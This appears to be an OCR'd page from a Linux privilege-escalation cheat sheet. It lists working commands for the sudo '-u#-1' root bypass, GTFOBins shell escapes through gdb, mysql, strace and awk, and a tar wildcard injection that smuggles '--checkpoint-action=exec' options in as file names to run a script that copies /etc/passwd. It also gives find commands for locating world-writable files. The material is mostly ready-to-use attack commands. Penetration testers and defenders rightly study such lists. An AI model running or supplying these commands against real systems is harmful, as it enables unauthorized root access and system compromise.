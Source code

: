     uid=0(root) gid=0(root) groups=0(root)

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
    # Exploitable when a user have the following permissions (sudo -l)
    (ALL, !root) ALL

    # If you have a full TTY, you can exploit it like this
    sudo -u#-1 /bin/bash
    sudo -u#4294967295 id
    GTFOBins
    GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

    The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and         facilitate the other post-exploitation tasks.

    gdb -nx -ex '!sh' -ex quit
    sudo mysql -e '! /bin/sh'
    strace -o /dev/null /bin/sh
    sudo awk 'BEGIN {system("/bin/sh")}'

    Wildcard
    By using tar with –checkpoint-action options, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the     user who starts tar. “Tricking” root to use the specific options is quite easy, and that's where the wildcard comes in handy.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
    # create file for exploitation
    
    touch -- "--checkpoint=1"
    touch -- "--checkpoint-action=exec=sh shell.sh"
    echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# vulnerable script

    tar cf archive.tar *
    Tool: wildpwn
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Writable files

    List world writable files on the system.
    find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
    find / -perm -2 -type f 2>/dev/null
    find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
    Writable /etc/sysconfig/network-scripts/ (Centos/Redhat)
    /etc/sysconfig/network-scripts/ifcfg-1337 for example
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
